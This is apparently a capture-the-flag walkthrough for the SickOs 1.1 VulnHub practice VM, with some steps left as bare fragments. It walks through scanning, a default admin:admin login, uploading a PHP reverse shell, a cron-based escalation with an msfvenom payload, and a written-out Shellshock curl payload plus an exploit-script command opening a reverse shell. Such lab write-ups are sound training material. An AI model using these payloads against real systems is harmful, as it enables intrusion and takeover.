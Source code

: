 ## SickOs 1.1 VulnHub VM walkthrough

SickOs 1.1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/sickos-11,132/

```
This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. 
This vm is very similar to labs I faced in OSCP. 
The objective being to compromise the network/machine and gain Administrative/root privileges on them.
```

## Solution

To find IP address of VM:

#### Sudo Netdiscover

![](Assets/1.png)

> IP address: 192.168.1.11

#### Port scan: Nmap -sC -sV -Pn -p- -A 192.168.1.11
![](Assets/2.png)

> Squid HTTP Proxy is running on port 3128 > Firefox Web proxy 192.168.1.11:3128 > Squid web server
 
#### Nikto: Nikto -h 192.168.1.11 -useproxy 192.168.1.11:3128 
![](Assets/3.png)

> /cgi-bin/status > vulnerable to ShellShock

#### Burp proxy 192.168.1.11 : 3128  >> 192.168.1.11/robots.txt
![](Assets/4.png)

> Wolfcms directory

#### Login page >> admin:admin
![](Assets/5.png)

> Logged in

#### Add IP and port to php Reverse shell
![](Assets/6.png)

> Added my own IP and port

#### Shell upload
![](Assets/7.png)

> Uploaded php reverse shell

#### Nc -nvlp 4444 & visited url of shell
![](Assets/8.png)

> got reverse shell

#### Visit /var/www/
![](Assets/9.png)

### Method 1: Using connect.py

#### Rw permissions for connect.py >> Visit cron.d

Create payload with msfvenum 

Echo payload to connect.py

Nc -nvlp 7777


Method 2: using config.php

config.php



Method 3: Get a shell using shellshock

curl --proxy 192.168.1.11:3128 http://192.168.1.11/cgi-bin/status -H "User-Agent: () { pwned;}; echo 'Content-Type: text/plain'; echo; /usr/bin/whoami; exit"

Download 34900.py

Reverse shell: python 34900.py payload=reverse rhost=192.168.1.11 lhost=192.168.1.7 lport=1234 proxy=192.168.1.11:3128 pages=/cgi-bin/status


config.php

sudo


